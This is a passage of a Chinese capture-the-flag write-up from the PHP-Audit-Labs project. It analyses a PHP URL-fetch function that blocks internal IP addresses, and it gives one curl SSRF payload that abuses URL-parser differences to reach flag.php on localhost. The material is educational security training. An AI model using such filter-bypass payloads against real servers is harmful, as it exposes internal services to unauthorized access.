

可以看到程序对用户传来的数据，会先使用 **safe_request_url** 函数对URL的合法性进行判断。而在 **safe_request_url** 函数中，使用 **check_inner_ip** 函数判断用户请求的IP是否为内部IP地址，如果是，则拒绝该请求；否则使用curl进行请求，并将请求结果进行输出。对于这一知识点，我们可以参考这篇文章： [us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) 



我们可以利用URL解析器之间的差异处理，构造如下 **payload** ：

```bash
curl -d "url=http://foo@localhost:80@www.freebuf.com/flag.php" "http://题目IP/"
```



## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！